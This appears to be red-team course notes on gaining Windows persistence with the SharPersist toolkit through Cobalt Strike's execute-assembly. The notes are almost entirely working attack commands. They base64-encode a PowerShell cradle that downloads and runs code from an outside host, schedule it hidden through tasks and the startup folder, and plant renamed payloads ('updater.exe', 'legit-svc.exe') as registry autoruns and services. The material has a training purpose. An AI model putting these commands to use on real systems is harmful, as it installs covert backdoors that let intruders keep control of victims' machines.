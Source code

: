 Cobalt Strike doesn't include any built-in commands specifically for persistence. [SharPersist](https://github.com/fireeye/SharPersist) is a Windows persistence toolkit written by FireEye. It's written in C#, so can be executed via `execute-assembly`.

## Usage

---

### schtask

Creates a scheduled task.

``` powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
```

```
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -n "Updater" -m add -o hourly
```

Where:

- `-t` is the desired persistence technique.
- `-c` is the command to execute.
- `-a` are any arguments for that command.
- `-n` is the name of the task.
- `-m` is to add the task (you can also `remove`, `check` and `list`).
- `-o` is the task frequency.

### startupfolder

Creates a startup application in the startup folder.

```
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -f "UserEnvSetup" -m add
```

Where:

- `-f` is the filename to save as.

### reg

Creates a registry auto run item.

```
cd C:\ProgramData
upload C:\Payloads\http_x64.exe
mv http_x64.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```

Where:

- `-k` is the registry key to modify.
- `-v` is the name of the registry key to create.


### service

Creates a service. To create an elevated service:

Upload `.svc.exe`:
```
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe legit-svc.exe
```

```
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add
```

The machine needs to reboot.